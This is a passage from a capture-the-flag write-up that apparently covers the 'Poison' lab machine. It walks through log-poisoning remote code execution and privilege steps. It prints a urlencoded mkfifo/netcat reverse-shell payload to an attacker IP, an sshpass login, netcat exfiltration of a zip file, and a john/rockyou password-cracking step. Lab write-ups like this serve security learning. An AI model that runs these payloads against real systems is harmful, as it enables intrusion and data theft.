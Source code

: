 ```bash
  echo urlencode($r_shell);

nc -nlvp 443
# view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+10.10.14.14+443+%3E%2Ftmp%2Ff
# :)
```

> **Attacker Machien**:

```bash
sshpass -p 'Ch---0' ssh charix@10.10.10.84

nc -nlvp 443 > secret.zip
```

> **Victime Machine**:

```bash
cat < secret.zip > nc 10.10.14.14 443
# :(
nc 10.10.14.14 443 < secret.zip
md5sum secret.zip
# :(
du -hc secret.zip
```

> **Attacker Machine**:

```bash
md5sum secret.zip
du -hc secret.zip
7z l secret.zip
7z x secret.zip
# Password :(
```

<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to use `john` to perform a brute force attack, maybe the password is in the dictionary **rockyou.txt**, but first I have to get the hash of the compressed file with `zip2john`, this way `john` can start his work, but unfortunately he doesn't succeed. I try to do a password reuse (with the one I accessed via SSH) to unzip the archive with `7z` and I access the content, reusing credentials is a very common **bad practice**. The content is not readable so I still don't understand how it can help me. When I re-enumerate the system with much more effort, I find with `sockstat` that there are open ports locally and one of them corresponds to the **VNC system**.
